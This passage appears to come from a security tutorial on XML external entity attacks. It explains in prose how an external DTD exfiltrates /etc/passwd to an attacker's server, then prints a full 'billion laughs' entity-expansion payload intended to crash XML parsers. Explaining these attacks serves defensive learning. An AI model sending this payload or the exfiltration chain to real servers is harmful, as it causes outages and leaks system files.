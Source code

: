 When the attacker sends the malicious XML to the victim's server, the XML parser/processor first downloads the malicious `xxe.dtd` file that contains the new parameter `ENTITY` definitions of `data` and `bravo`. The `bravo` parameter declares a value, which is actually a general external `ENTITY` called `charlie` which contains a URL back to the attacker's server. Notice that the URL parameter ‘d’ is assigned a parameter entity reference of `%data` which points directly to the `/etc/passwd` file.

Returning to the XML that was posted to the victim's server, the DTD makes references to the new components in `xxe.dtd` which includes them and the general entity named `charlie` in the DTD. Unlike parameter entities, general entities can be referenced in the XML body. Once the `&charlie;` reference is processed, the chain of events happens. The file `/etc/passwd` is read and an HTTP request is made back to the attacker's server with the contents of the file.

### Denial of Service Example

**HTTP POST Request**

```
<?xml version="1.0"?>

<!DOCTYPE lolz [

<!ELEMENT lolz (#PCDATA)>

<!ENTITY lol "lol">

<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">

<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">

<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">

<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">

<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">

<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">

<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">

<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">

<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">

]>

<lolz>&lol9;</lolz>
```

In this example, the attacker doesn’t use any external components. Instead the idea is to cause the application to struggle and crash through the use of an overwhelming amount of general entity references. The very first entity, `lol`, is assigned the value `"lol"`. The subsequent entities are chained, with each entity referencing the previous entity ten times.
